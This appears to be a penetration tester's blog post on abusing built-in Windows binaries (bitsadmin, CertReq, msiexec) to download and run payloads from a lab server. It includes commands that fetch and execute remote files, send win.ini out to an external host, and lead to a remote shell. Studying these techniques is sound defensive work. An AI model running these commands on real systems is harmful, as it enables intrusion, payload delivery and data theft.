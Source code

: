 ```yaml
---
layout:     post
title:      Living Off The Land
date:       2020-11-26 01:47:05 +0800
categories: Security
tags:       Download Pentest
author:     SteveDevin
mathjax:    true
---
```

* content
{:toc}

最近做白利用改进专项, 记录一下

## Download

### 1. Bitsadmin.exe

```powershell
bitsadmin /create myfile
bitsadmin /addfile myfile http://192.168.220.125/white_process/call_calc.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile
```

[***pcap***](/assets/pcap/Bitsadmin.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
Range: bytes=0-71744
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```

### 2. CertReq.exe

```powershell
CertReq -Post -config https://example.org/ c:\windows\win.ini
```

[***pcap***](/assets/pcap/CertReq.pcap)

```http
POST /white_process/test HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.18362.1/19h1_release)
Content-Length: 167
Host: 192.168.220.125
```

***Note***: Small files only

*Due to something going on with the internals of CertReq.exe only small (not sure on specific size limitations) files appear to work - otherwise you get the below error!*

### 3. Certutil.exe


### 4. Desktopimgdownldr.exe

### 5. Diantz.exe

### 6. Esentutl.exe

### 7. Msiexec.exe

```powershell
bmsiexec /i http://192.168.220.125/white_process/test.msi
```

[***pcap***](/assets/pcap/Msiexec.pcap)

***Note***: whitch function Msiexec.exe call: *DllRegisterServer*
之前按照 `Micro8` 的过程复现, 发现一直有问题, 后来wsy提醒说, Msiexec 调用的dll的 `DllRegisterServer`, 而`Micro8`中的方法生成的dll导出表仅有 `DllEntryPoint`

后面逆向了一下 32位版的 msiexec.exe, 也通过 `rundll32 Msiexec_rev_x64_4444.dll DllEntryPoint` 成功 get shell 证实了这一结论

![msiexec_re_register_dll](/assets/img/Msiexec_DllRegisterServer.png)

## Reference

1. [lolbas/#download](https://lolbas-project.github.io/#/download)
2. [Exe_ADS_Methods.txt](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f)

### download

#### certreq

1. [dtm.uk](https://dtm.uk/certreq/)

#### Msiexec

1. [3gstudent])(https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec/)
2. [Micro8](https://www.bookstack.cn/read/Micro8/Chapter1-81-90-86_%E5%9F%BA%E4%BA%8E%E7%99%BD%E5%90%8D%E5%8D%95Msiexec%E6%89%A7%E8%A1%8Cpayload%E7%AC%AC%E5%85%AB%E5%AD%A3%E8%A1%A5%E5%85%85.md)
